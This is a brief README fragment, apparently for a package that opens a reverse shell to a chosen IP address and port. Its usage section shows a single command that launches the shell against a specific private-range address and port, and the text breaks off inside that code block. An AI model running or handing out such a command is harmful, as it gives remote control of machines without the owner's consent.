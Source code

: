 # Reverse Shell Package

This package establishes a reverse shell connection to a specified IP and port.

## Usage

To start the reverse shell, run the following command:

```bash
vpid 10.119.250.54 10424
